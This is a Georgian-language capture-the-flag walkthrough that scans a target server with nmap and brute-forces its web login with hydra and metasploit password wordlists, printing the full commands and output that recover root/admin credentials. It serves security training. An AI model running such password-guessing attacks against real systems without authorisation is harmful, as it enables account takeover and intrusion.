


## მოცემულია GNU/Linux სერვერი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და მოიპოვოთ ე.წ. "flag"-ი.

1. nmap-ის გამოყენებით ვნახოთ რომელი პორტებია სერვერზე გახსნილი:
    ```bash
    nmap 185.212.254.51
    ```
    Output:
    ```bash
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 09:35 EDT
    Nmap scan report for 185.212.254.51
    Host is up (0.021s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    8080/tcp open  http-proxy

    Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
    ```
    როგორც ვხედავთ 8080 პორტი გახსნილია და http-proxy არის გაშვებული

2. გავხსნათ ბრაუზერი და შევიდეთ ამ IP:PORT-ზე. URL-ში ჩავწეროთ “185.212.254.51:8080“.
    შესვლისას დაგვხვდება ასეთი ფეიჯი  
    

3. ფეიჯის inspect-მა საინტერესო არაფერი გვანახა, ამიტომ შევეცადოთ bruteforce-ით გადავუაროთ და შევეცადოთ გავტეხოთ user/pass.

    ამისთვის გამოვიყენებთ hydra-ს.

    ```bash
    hydra -L <USER_FILE> -P <PASS_FILE> <HOST> -s <PORT> http-post-form "<PATH>:<BODY>:<ERR_MSG>" -V 

    Flags:
      -L Usernames ფაილის მითითება
      -P Passwords ფაილის მითითება
      -s პორტის მითითება
      -V (Verbos mode) გამოიტანს ყველა მცდელობას
      -f შეწყვეტს ძებნას პირველივე სწორი აუთენთიფიკაციისთანავე

    Variables:
      <USER_FILE> - ფაილი, საიდანაც წაიკIთხავს იუზერნეიმების სიას
      <PASS_FILE> - ფაილი, საიდანაც წაიკIთხავს პაროლების სიას
      <HOST> - IP მისამართი, რომელიც უნდა გავტეხოთ
      <PORT> - პორტი რომელზეც არის კონკრეტული სერვისი გაშვებული
      <PATH> - საიტზე იმ ფაილის მისამართი, სადაც ხდება აუთენთიფიკაცია
      <BODY> - პარამეტრები, რომლებიც გადაეცემა დალოგინებისას
      <ERR_MSG> - წარუმატებელი დალოგინებისას გამოტანილი მესიჯი
    ```

    * **USER_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_users.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_users.txt)
    * **PASS_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_passwords.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_passwords.txt) 
    * **HOST** - IP მისამართი რომელზეც სერვერია გაშვებული, ჩემს შემთხვევაში `185.212.254.51`
    * **PORT** - როგორც პირველ პუნქტში ვნახეთ სერვერი გაშვებულია `8080` პორტზე
    * **PATH** - დასალოგინებლად უნდა შევიდეთ შემდეგ მისამართზე 185.212.254.52:8080/login ანუ ფაილის მისამართია `/login`
    * **BODY** - ამ პარამეტრების ნახვა შეგვიძლია network ტაბის გამოყენებით.
      * გავხსნათ Inspect ბრაუზერში და გადავიდეთ Network ტაბზე. 
      * ჩავწეროთ რენდომ იუზერნეიმ/პაროლი მაგალითად: test_user/test_pass
      * Network-ში ჩამონათვალში მოვნიშნოთ ის სტრიქონი, სადაც ფაილი არის login
      * ვნახოთ გაგზავნილი payload:
        * Chrome: Headers -> Form Data -> view Source
        * Firefox: Headers -> Edit and Resend -> Request Body
        * სხვა ბრაუზერებისთვის სხვანაირად იქნება და თქვენ იცით არ შერცხვეთ.

        შედეგი: '''username=test_user&password=test_pass&login-submit=Log+In'''
        Hydra-ს უნდა მივუთითოთ თუ სად უნდა ჩაწეროს username/password, ამისთვის იყენებენ ორ keywords: ^USER^ და ^PASS^.
        ჩვენს შემთხვაში test_user-ის მაგივრად უნდა ჩავწეროთ ^USER^, ხოლო test_pass-ის მაგივრად ^PASS^.
        საბოლოოდ ვიღებთ: `"username=^USER^&password=^PASS^&login-submit=LogIn"`
      

    * **ERR_MSG** - დავლოგინდეთ რენდომ იუზერნეიმითა და პაროლით. ფეიჯზე გაჩნდება შემდეგი მესიჯი `Invalid Username/Password`

    ახლა კი ავაწყოთ მთლიანი ბრძანება:
    ```bash
      hydra -L unix_users.txt \
            -P unix_passwords.txt \
            185.212.254.52 \
            -s 8080 \
            http-post-form "/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password" \
            -V\
            -f
    ```
4. გავუშვათ წინა პუნქტში აწყობილი ბრძანება, hydra ცდის ყველა შესაძლო user/pass კომბინაციას, ჩემს შემთხვევაში ის 160'00ზე მეტია, ამიტომ ცოტახანი ლოდინი მოგვიწევს:
    Output:
    ```bash
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-24 15:02:30
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 169512 login tries (l:1/p:169512), ~64 tries per task
    [DATA] attacking http-post-form://185.212.254.52:8080/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 1 of 169512 [child 0] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456" - 2 of 169512 [child 1] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "12345" - 3 of 169512 [child 2] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456789" - 4 of 169512 [child 3] (0/0)
    ...
    ...
    ...
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 54867 of 169512 [child 0] (0/0)
    [8080][http-post-form] host: 185.212.254.52   login: root   password: admin
    [STATUS] attack finished for 185.212.254.52 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-24 15:02:30
    ```
    როგორც ვხედავთ hydra-მ დაასრულა ძებნა და იპოვა შემდეგი წყვილი
    ```
    Username: root
    Password: admin
    ```
    პ.ს. -f ფლეგის გარეშე თუ ცდით ნახავთ, რომ სხვა წყვილებიც არსებობს, კონკრეტულად კი ყველა ისეთი წყვილი, რომელშიც user არის root

